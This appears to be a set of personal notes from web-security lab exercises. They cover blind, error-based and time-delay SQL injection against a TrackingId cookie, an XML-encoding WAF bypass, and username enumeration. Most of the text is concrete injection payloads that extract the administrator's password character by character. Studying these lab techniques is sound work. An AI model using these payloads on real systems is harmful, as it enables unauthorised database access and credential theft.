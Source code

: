 **Blind SQL injection with conditional errors**

    Cookie: TrackingId=...
    500 Internal Server Erro when add ' to TrackingId
1. add ' to a TrackingId found status:500
2. `TrackingId=xyz'||(SELECT '' FROM dual)||'` to know it is Orable DB
3. Burp Intruder => `'||(SELECT CASE WHEN SUBSTR(password,$pos$,1)='§password_1_char§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
4. observe for status 500

---

**Visible error-based SQL injection**

    Cookie: TrackingId=...
    Error from DB =>  TrackingId=..' AND 1=CAST((SELECT 1) AS int)--
`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

---

**Blind SQL injection with time delays**

    Cookie: TrackingId=...
    TrackingId=x'||pg_sleep(10)--
1. `TrackingId=x'||pg_sleep(10)--` to check

---

**Blind SQL injection with time delays and information retrieval**

    Cookie: TrackingId=...
    TrackingId=x'||pg_sleep(10)--
1. `'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END` test for the vuln
2. Burp Intruder `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$pos$,1)=’§c§’)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` but adjust resource pool maximum concurrent to 1 before attack
   
---

**SQL injection with filter bypass via XML encoding**

    XML
    Check stock in product page
1. in product page put `SELECT * FROM users` between productId xml tag => Attack detected
2. Hackvertor extension -> highlight the input -> encode -> dec_entities/hex_entities
3. `<storeId> 1 <@dec_entities> UNION SELECT username||'~'||password FROM users<@/dec_entities></storeId>`

----
----

# Authentication

---
**Username enumeration via different responses**
1. brute force username and password
2. observe the result of attack especially Response Length

---
